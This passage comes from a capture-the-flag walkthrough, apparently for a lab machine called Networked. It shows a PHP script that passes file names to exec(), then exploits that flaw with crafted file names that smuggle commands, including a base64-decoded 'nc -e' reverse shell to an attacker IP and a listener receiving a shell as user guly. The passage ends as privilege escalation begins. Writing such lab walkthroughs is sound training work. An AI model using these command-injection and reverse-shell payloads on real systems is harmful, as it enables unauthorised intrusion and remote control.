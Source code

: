 ```

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
What we can exploit in this code is the <b>exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");</b>. Since it reads every file in the directory as a parameter then we can create a file that has the name of a command and instead of deleting the file it will run the command for us. There are two ways we can name the file. One is using base64 encoding and another is using the <b>$SHELL</b> variable as a reference to <b>/bin/sh</b>

<b>Base64</b>
```
# echo "nc -e /bin/bash 10.10.14.21 10001" | base64
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg==

bash-4.2$ touch test\;base64\ -d\ \<\<\<\ bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg\=\=\ \|\ sh\;
```
<b>$SHELL</b>
```
bash-4.2$ touch test\;nc\ \-e\ \$SHELL\ 10.10.14.21\ 10001\ \|\ sh\;
```
After a few minutes you should see a shell open up. If we run <b>whoami</b> you will see that we are now the user <b>guly</b>
```
# nc -lvnp 10001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10001
Ncat: Listening on 0.0.0.0:10001
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:52116.

whoami
guly
```
From here you can grab the user flag. Now onto root. If you type <b>sudo -l</b>, it turns out we have <b>sudo</b> rights to run the script <b>/usr/local/sbin/changename.sh</b>
```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
```